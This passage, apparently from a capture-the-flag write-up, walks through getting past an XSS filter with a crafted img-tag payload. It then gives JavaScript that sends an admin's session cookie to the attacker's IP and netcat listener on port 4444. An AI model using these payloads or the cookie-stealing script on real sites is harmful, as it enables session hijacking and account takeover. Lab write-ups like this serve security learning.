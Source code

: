 Now we can see that the filtering is still applied on content between the image tags. Since everything after the first ‘/’ is removed, let’s put the first quote before the ‘/’ then close the image tag again after the script tags and final quote mark. This should work as the tag is not considered closed until the last ‘/>’.  Our next input therefore will be ``<img src="/><script>test</script>" />``

![img](assets/fourth_test.png)

Success! The filtering has been bypassed and we are able to include script tags on the page. However if we now try to use the alert(“XSS”) function inside the script tags the filtering rules are re-applied.

![img](assets/fifth_test.png)

This means that adding any quotes inside the input will not work, this is due to the way strings are parsed, the open quotation mark before ‘XSS’ is actually seen as a close quotation mark which means we are no longer placing our script tags entirely between the quotation marks inside the image tag. The next step would be to try and use single quotation marks as they do not match with the double quotation marks.

![img](assets/sixth_test.png)

Now the filtering rules have removed the single quotation marks inside our script tags, this means we will be unable to execute any scripts that use string inputs or have quotes as part of their format, this presents an additional challenge if we wish to use XSS to steal the session data from the admin.

## Spoofing Admin Session

The way we want to do this is to force script tags which connect to an external custom script onto the HTML of this webpage, this external custom script should force the admin to make a POST request to our netcat listener so we can extract the session data.  Below shows a simple javascript that waits for the page to load then sends the request with the cookie to our IP using the port netcat will listen on, remember to change it to your IP if using it.

```
window.addEventListener('DOMContentLoaded', function(e) 
{
    window.location = "http://10.10.14.61:4444/?cookie=" + document.getElementsByName("cookie")[0].value
})
```
